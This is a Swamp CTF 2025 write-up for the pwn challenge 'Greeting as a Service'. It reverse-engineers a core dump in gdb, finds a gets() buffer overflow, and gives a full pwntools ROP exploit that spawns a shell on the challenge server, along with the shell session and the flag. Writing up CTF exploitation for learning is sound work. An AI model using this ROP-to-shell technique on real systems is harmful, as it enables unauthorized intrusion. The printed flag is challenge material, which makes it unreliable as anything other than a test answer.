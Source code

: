 ```yaml
---
title: Greeting as a Service
date: 2025-03-30T17:34:37+03:00
description: Writeup for Greeting as a Service [Swamp CTF 2025]
type: writeup
type: writeup
author: sunbather
tags:
- pwn
draft: false
---
```

___

## Challenge Description

A friend of mine set up a greeting as a service server. He gave me a core dump of it to play around with but won't give me source. Find anything useful?

## Intuition

We get a coredump of the remote service. A coredump can't be explored by executing instructions, but the memory can be examined.
Based on the backtrace, I guess we are in some kind of `main()` function:

```
$ gdb -q -core ./coredump_GAAS
pwndbg> bt
#0  0x00000000004011a3 in ?? ()
#1  0x00007ffff7de8083 in ?? ()
#2  0x00007ffff7ffc620 in ?? ()
#3  0x00007fffffffde68 in ?? ()
#4  0x0000000100000000 in ?? ()
#5  0x00000000004011a3 in ?? ()
#6  0x0000000000401240 in ?? ()
#7  0xbdeebaa290c7ef1c in ?? ()
#8  0x0000000000401090 in ?? ()
#9  0x00007fffffffde60 in ?? ()
#10 0x0000000000000000 in ?? ()
```

This guess is purelt based on the return addresses. I think from number 4 onwards it's just random values found on the stack, but the addresses 1 to 3 are probably entry functions from libc, like `libc_start_main()`.
So that leaves address 0 to be the `main()` function. Let's disassemble it:

```
pwndbg> x/33i $rip
=> 0x4011a3:	endbr64 
   0x4011a7:	push   rbp
   0x4011a8:	mov    rbp,rsp
   0x4011ab:	sub    rsp,0x10
   0x4011af:	mov    rax,QWORD PTR [rip+0x2e9a]        # 0x404050
   0x4011b6:	mov    ecx,0x0
   0x4011bb:	mov    edx,0x2
   0x4011c0:	mov    esi,0x0
   0x4011c5:	mov    rdi,rax
   0x4011c8:	call   0x401080
   0x4011cd:	mov    rax,QWORD PTR [rip+0x2e6c]        # 0x404040
   0x4011d4:	mov    ecx,0x0
   0x4011d9:	mov    edx,0x2
   0x4011de:	mov    esi,0x0
   0x4011e3:	mov    rdi,rax
   0x4011e6:	call   0x401080
   0x4011eb:	mov    QWORD PTR [rbp-0xa],0x0
   0x4011f3:	mov    WORD PTR [rbp-0x2],0x0
   0x4011f9:	lea    rdi,[rip+0xe04]        # 0x402004
   0x401200:	mov    eax,0x0
   0x401205:	call   0x401060
   0x40120a:	lea    rax,[rbp-0xa]
   0x40120e:	mov    rdi,rax
   0x401211:	mov    eax,0x0
   0x401216:	call   0x401070
   0x40121b:	lea    rax,[rbp-0xa]
   0x40121f:	mov    rsi,rax
   0x401222:	lea    rdi,[rip+0xdee]        # 0x402017
   0x401229:	mov    eax,0x0
   0x40122e:	call   0x401060
   0x401233:	mov    eax,0x0
   0x401238:	leave  
   0x401239:	ret
```

We can notice 5 calls, let's break them down:

- The first two calls, at `0x4011c8`, and `0x4011e6` are to the same address: `0x401080`. Additionally, they function called seems to have the following signature, based on loaded registers: `void func(long? a, int b, int c, int d)`. Additionally, `b` is always 0, `c` is always 2, `d` is always 0. We can see by printing the address where it takes `a` from, that it is most likely a file structure:

```
pwndbg> x/10gx 0x404050
0x404050:	0x00007ffff7fb0980	0x0000000000000000
0x404060:	0x0000000000000000	0x0000000000000000
0x404070:	0x0000000000000000	0x0000000000000000
0x404080:	0x0000000000000000	0x0000000000000000
0x404090:	0x0000000000000000	0x0000000000000000
pwndbg> x/10gx 0x00007ffff7fb0980
0x7ffff7fb0980:	0x00000000fbad2088	0x0000000000000000
0x7ffff7fb0990:	0x0000000000000000	0x0000000000000000
0x7ffff7fb09a0:	0x0000000000000000	0x0000000000000000
0x7ffff7fb09b0:	0x0000000000000000	0x0000000000000000
0x7ffff7fb09c0:	0x0000000000000000	0x0000000000000000
```

Very often I have seen `fbad...` inside the flags field of `FILE` objects. So I realized this is probably `stdin` or `stdout` from libc. Then I thought what function signature that takes a `FILE` pointer in the first slot could be called here.
Given almost all pwn challenges disable buffering on `stdout` and `stdin` before the actuall program, I realized this is probably `setvbuf`: `int setvbuf(FILE *stream, char *buf, int mode, size_t size)`.

It fits perfectly and `buf` can be NULL.

Additionally, another hint that this (and actually the others too) are libc functions is the fact that disassembling the address of the function it calls yields instructions that look **a lot** like they're from the PLT section of a binary:

```
pwndbg> x/3i 0x401080
   0x401080:	endbr64 
   0x401084:	bnd jmp QWORD PTR [rip+0x2f9d]        # 0x404028
   0x40108b:	nop    DWORD PTR [rax+rax*1+0x0]
```

Continuing the analysis, we can see an array of 10 bytes is initialized with 0 next:

```
   0x4011eb:	mov    QWORD PTR [rbp-0xa],0x0 ; <--- 8 bytes
   0x4011f3:	mov    WORD PTR [rbp-0x2],0x0  ; <--- 2 bytes
```

Then this pattern of calls:

```
   0x4011f9:	lea    rdi,[rip+0xe04]        # 0x402004
   0x401200:	mov    eax,0x0
   0x401205:	call   0x401060
   0x40120a:	lea    rax,[rbp-0xa]
   0x40120e:	mov    rdi,rax
   0x401211:	mov    eax,0x0
   0x401216:	call   0x401070
   0x40121b:	lea    rax,[rbp-0xa]
   0x40121f:	mov    rsi,rax
   0x401222:	lea    rdi,[rip+0xdee]        # 0x402017
   0x401229:	mov    eax,0x0
   0x40122e:	call   0x401060
```

We can notice function `0x401060` takes only one string argument. The argument is:

```
pwndbg> x/1gx 0x402004
0x402004:	Cannot access memory at address 0x402004
```

Uhh? That's weird. What are the mappings:

```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File
          0x400000           0x401000 r--p     1000      0 /mnt/c/XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXa.out
          0x401000           0x402000 r-xp     1000   1000 /mnt/c/XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXa.out
          0x403000           0x404000 r--p     1000   2000 /mnt/c/XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXa.out
          0x404000           0x405000 ---p     1000   3000 /mnt/c/XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXa.out
```

Where is that???? Well here we did even more guesswork, where I remembered I had seen cases before where the read-only segment of memory is doubled in a binary,
with it being both at `0x403000` and `0x402000`. So I said "well let's check 0x403004" then:

```
pwndbg> x/1gx 0x403004
0x403004:	0x2073692074616857
pwndbg> x/1s 0x403004
0x403004:	"What is your name?"
```

Great! This is also the thing printed when you connect to the remote, without and newlines. So then `0x401060` MUST be `printf()`.

All that is left now is figuring out what `0x401070` is. Judging from the fact that it takes only one argument, a buffer pointer (the one that was initialized earlier), We thought it MUST be `gets()`, because the remote target is waiting for input at this point.

So we have a simple buffer overflow and we can ROP chain. Lots of gadgets to choose from as well.

## Solution

We reuse the ideas from the [HTB Cyber Apocalypse 2025 Crossbow challenge](https://dothidden.xyz/cyber_apocalypse_ctf_2025/crossbow/).

Syscall a `read()`, insert `/bin/sh`, syscall `execve()`, win.

```py
#!/usr/bin/env python3

from pwn import *

pop_rdi = 0x0000000000401194
pop_rsi = 0x0000000000401196
pop_rax = 0x0000000000401188
pop_rdx = 0x0000000000401198
syscall = 0x0000000000401190
data_addr = 0x404060
gets = 0x401070

payload = b"a" * 0xa + b"b" * 8 + p64(pop_rax) + p64(0) + p64(pop_rdi) + p64(data_addr) + p64(gets) + p64(pop_rax) + p64(59) + p64(pop_rdi) + p64(data_addr + 16) + p64(pop_rsi) + p64(data_addr) + p64(pop_rdx) + p64(0) + p64(syscall)

fake_execve = p64(data_addr + 16) + p64(0) + b"/bin/sh\x00"

target = remote("chals.swampctf.com", 40003)
target.sendline(payload)
target.sendline(fake_execve)
target.interactive()
```

### Flag

```
$ ./solve.py 
[+] Opening connection to chals.swampctf.com on port 40003: Done
[*] Switching to interactive mode
What is your name?Hello, aaaaaaaaaabbbbbbbb\x88\x11!
$ id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu)
$ cat flag.txt
swampCTF{t1m3_t0_s@y_g00dby3}
```

